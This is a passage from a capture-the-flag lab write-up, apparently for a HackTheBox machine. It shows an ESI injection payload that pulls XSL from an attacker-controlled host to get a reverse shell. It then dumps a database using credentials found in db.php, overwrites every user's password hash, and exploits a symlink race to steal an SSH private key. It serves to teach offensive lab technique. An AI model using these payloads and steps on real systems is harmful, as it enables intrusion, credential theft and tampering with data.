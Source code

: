 * now let's get a reverse shell.

> Payload: title=sdasd&msg=asdasda&id=<esi:include+src="http://10.10.1x.xx:8000/execute.xml"+stylesheet="http://10.10.1x.xx:8000/execute.xsl">
</esi:include>

> ![](https://i.ibb.co/tJVrJXv/sam2.png)
>
> ![](https://i.ibb.co/ScC7SGM/sam.png)

* cool, let's read user flag now.

> ![](https://i.ibb.co/7jV7y42/userflag.png)

# []()Privilege Escalation --> Srvadm

> after some enumeration i found another subdomain in **/etc/apache2/sites-available**.

> ![](https://i.ibb.co/PWBCzJF/srvadm.png)

> let's add it to my hosts list and open it.

> ![](https://i.ibb.co/FWHVq7n/printer.png)

> let's go to **/var/www/html/** and read the **db.php**

> ![](https://i.ibb.co/X71CRKN/db.png)

> okey now we need to login to this printer page, let's dump Database first.

> **mysql -h localhost -udb_adm -pdb_p4ss**

> type **use quick;** to change the database to Quick.

> ![](https://i.ibb.co/f9g592J/dumping.png)

> **select * from quick.users;**

> ![](https://i.ibb.co/FmHrsYG/emailspasswords.png)

> i couldn't decrypt the password of srvadm so i changed the hashs to the eilsa password hash.

> **UPDATE users SET password='c6c35ae1f3cb19438e0199cfa72a9d9d';**

> now we can login to printer with elisa password.

> ![](https://i.ibb.co/crMXQ3H/showprinter.png)

> now there is file in **/var/www/printer/**. this is file vulnerable to **Race Condition**.

> ![](https://i.ibb.co/F4Ctv2c/job.png)

> What the file is doing is making a file with name of the timestamp.And if we read the content of the file it is sending the file to print it to the ip of a specified port, If you look at the ad-printer from the printer subdomain there is an ip and port to be specified.

> ![](https://i.ibb.co/YdNJbWC/addprinter.png)

> we have read/write permissions to the directory /var/www/jobs/ right? so i will symlink the id_rsa of srvadm and start a listener on the port that i specified on add_printer.php and then access the file job.php.
